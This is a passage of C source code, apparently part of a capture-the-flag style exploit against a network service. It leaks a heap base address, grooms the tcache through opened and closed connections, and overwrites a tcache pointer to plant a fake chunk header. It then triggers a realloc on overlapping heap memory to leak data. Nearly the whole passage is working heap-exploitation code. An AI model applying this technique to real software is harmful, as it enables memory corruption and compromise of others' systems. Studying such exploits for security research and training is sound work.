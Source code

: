 ```c
    // free Y chunk, writes heap base into 0x10000 area
    close(conns[14]);
    yield();

    // read the buffer back in by sending '\n'
    write(conns[0], "\n", 1);
    // skip the hello message, linus would insult me for writing this code
    do {
        read(conns[0], chunk, 1);
    } while(*chunk != '\n');
    readall(conns[0], chunk, 0x10000);

    // search for heap address
    size_t *leak = memmem(chunk, 0x10000, "YYYYYYYY", 8);
    if (!leak) {
        puts("heapbase not found :(");
        exit(0);
    }
    size_t heapbase = leak[-1];
    printf("heapbase located at: 0x%lx\n", heapbase);

    // shape tcache / heap so there is at least one free entry before the bug is triggered again
    close(conns[15]);
    close(conns[13]);
    yield();
    conns[13] = conn();
    yield();
    conns[14] = conn();
    yield();
    conns[15] = conn();
    write(conns[13], "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    write(conns[14], "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(conns[15], "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();
    close(conns[13]);
    yield();

    // bug again: overwrite tcache pointer
    size_t addr = heapbase + OFFSET_HEAP;
    write(conns[15], &addr, 7);
    close(conns[14]);
    yield();

    // allocates fake chunk over filler chunk 5's header
    conns[13] = conn();
    conns[14] = conn();
    write(conns[13], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    ((size_t*)chunk)[0] = 0;
    ((size_t*)chunk)[1] = 0x811;
    ((size_t*)chunk)[2] = 0;
    ((size_t*)chunk)[3] = 0;
    write(conns[14], chunk, 0x20);
    yield();

    // free chunk 5
    write(conns[5], "\n", 1);
    yield();

    // trigger a realloc (because heap is overlapping, this will lead to problems) and send leaked data out
    write(conns[14], "YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY\n", 0x40);
    yield();

```